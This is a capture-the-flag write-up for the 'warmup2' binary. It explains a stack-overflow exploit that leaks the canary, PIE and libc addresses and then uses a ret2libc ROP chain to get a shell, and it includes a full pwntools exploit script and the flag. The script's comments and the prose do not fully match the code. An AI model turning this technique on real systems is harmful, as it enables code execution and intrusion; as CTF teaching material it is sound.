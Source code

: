 # warmup2

## Challenge

The challenge includes a binary with two text prompts.
Each prompt will repeat the string sent by the user.
At the end of both prompts, the program returns and exits.

The binary has full mitigations enabled.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Decompiled vuln function

```c
void sym.vuln(void) {
    int64_t in_FS_OFFSET;
    ulong buf;
    int64_t canary;
    
    canary = *(in_FS_OFFSET + 0x28);
    sym.imp.puts("What\'s your name?");
    sym.imp.read(0, &buf, 0x1337);
    sym.imp.printf("Hello %s!\n", &buf);
    sym.imp.puts("How old are you?");
    sym.imp.read(0, &buf, 0x1337);
    sym.imp.printf("Wow, I\'m %s too!\n", &buf);
    if (canary != *(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

## Solution

The binary uses `read`, so no null byte is appended to user input.
We can leak the canary by writing up to its data so that the following `printf` call will print it to stdout.

On the next prompt, we need to restore the canary and loop the program so we can use the canary in an exploit.
We can do this by changing the least significant byte of the return address.

It is important to note that we cannot return back to the start of `main`, as the function prologue would create a new stack frame that is offset by 8 bytes.
This would cause the program to segfault in `printf` when it reaches a `movaps` instruction, which requires the stack to be aligned to 0x10 bytes.

Instead, we can jump back into `main` after the function prologue, which will cause it to use the existing stack frame rather than pushing a new one.

We can leak the libc address using the same technique as we use for the canary, except we are reading from the `libc_start_main_return` address on the stack.
Once we have this, and we loop again, we can use a ret2libc ropchain to spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 chal
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

libc = ELF('libc-2.31.so')

io = start()

io.sendafter(b"What's your name?\n", flat({0x108: b'~'}))
io.recvuntil(b'~')
canary = unpack((b'\0' + io.recvuntil(b'!\n', drop=True))[0:8])
io.info("CANARY : " + hex(canary))

io.sendafter(b"How old are you?\n", flat({0x108: canary, 0x118: b'\xa3'}))

io.sendafter(b"What's your name?\n", flat({0x117: b'~'}))
io.recvuntil(b'~')
exe.address = unpack(io.recvuntil(b'!\n', drop=True).ljust(8, b'\0')) - 0x000012e2
io.info("EXE : " + hex(exe.address))

rop = ROP(exe)
rop.puts(exe.got['puts'])
rop.main()
io.sendafter(b"How old are you?\n", flat({0x108: canary, 0x118: rop.chain()}))
io.recvuntil(b'!\n')
libc.address = unpack(io.recvuntil(b'\n', drop=True).ljust(8, b'\0')) - libc.sym['puts']
io.info("LIBC : " + hex(libc.address))

rop = ROP(libc)
rop.raw(rop.ret)
rop.system(next(libc.search(b'/bin/sh')))
io.sendlineafter(b"What's your name?\n", b"")
io.sendafter(b"How old are you?\n", flat({0x108: canary, 0x118: rop.chain()}))

io.interactive()
```

## Flag

```
maple{we_have_so_much_in_common}
```
